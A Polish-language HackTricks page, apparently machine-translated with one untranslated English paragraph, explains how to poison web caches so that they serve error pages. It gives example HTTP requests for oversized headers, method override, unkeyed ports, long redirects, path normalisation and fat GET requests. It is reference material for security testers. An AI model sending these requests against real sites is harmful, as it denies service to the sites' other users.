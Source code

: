 # Cache Poisoning to DoS

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

{% hint style="danger" %}
Na tej stronie znajdziesz różne warianty, aby spróbować sprawić, by **serwer WWW odpowiadał błędami** na żądania, które są **ważne dla serwerów cache**
{% endhint %}

* **HTTP Header Oversize (HHO)**

Wyślij żądanie z rozmiarem nagłówka większym niż ten obsługiwany przez serwer WWW, ale mniejszym niż ten obsługiwany przez serwer cache. Serwer WWW odpowie kodem 400, który może być zbuforowany:
```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```
* **HTTP Meta Character (HMC) & Unexpected values**

Wyślij nagłówek, który zawiera szkodliwe **znaki meta** takie jak `\n` i `\r`. Aby atak zadziałał, musisz najpierw obejść pamięć podręczną.
```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```
A badly configured header could be just `\:` as a header.

This could also work if unexpected values are sent, like an unexpected Content-Type:  
Źle skonfigurowany nagłówek mógłby być po prostu `\:` jako nagłówek.

To również może działać, jeśli wysyłane są nieoczekiwane wartości, takie jak nieoczekiwany Content-Type:
```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```
* **Nagłówek bez klucza**

Niektóre strony internetowe zwrócą kod statusu błędu, jeśli **zobaczą niektóre konkretne nagłówki** w żądaniu, jak w przypadku nagłówka _X-Amz-Website-Location-Redirect: someThing_:
```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```
* **HTTP Method Override Attack (HMO)**

Jeśli serwer obsługuje zmianę metody HTTP za pomocą nagłówków takich jak `X-HTTP-Method-Override`, `X-HTTP-Method` lub `X-Method-Override`, możliwe jest zażądanie ważnej strony, zmieniając metodę, aby serwer jej nie obsługiwał, co powoduje, że zła odpowiedź jest buforowana:
```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```
* **Port bez klucza**

Jeśli port w nagłówku Host jest odzwierciedlany w odpowiedzi i nie jest uwzględniony w kluczu pamięci podręcznej, możliwe jest przekierowanie go do nieużywanego portu:
```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```
* **Long Redirect DoS**

Jak w poniższym przykładzie, x nie jest buforowane, więc atakujący może wykorzystać zachowanie odpowiedzi przekierowania, aby sprawić, że przekierowanie wyśle URL tak dużą, że zwróci błąd. Wtedy osoby próbujące uzyskać dostęp do URL bez niebuforowanego klucza x otrzymają odpowiedź z błędem:
```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```
* **Normalizacja wielkości liter nagłówka hosta**

Nagłówek hosta powinien być niewrażliwy na wielkość liter, ale niektóre strony internetowe oczekują, że będzie pisany małymi literami, zwracając błąd, jeśli tak nie jest:
```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```
* **Normalizacja ścieżki**

Niektóre strony zwrócą kody błędów, wysyłając dane URLencode w ścieżce, jednak serwer cache z URLdecode ścieżkę i zapisze odpowiedź dla ścieżki URLdecoded:
```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```
* **Fat Get**

Niektóre serwery cache, takie jak Cloudflare, lub serwery webowe, zatrzymują żądania GET z ciałem, więc można to wykorzystać do zbuforowania nieprawidłowej odpowiedzi:
```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden
Cache: hit
```
## References

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
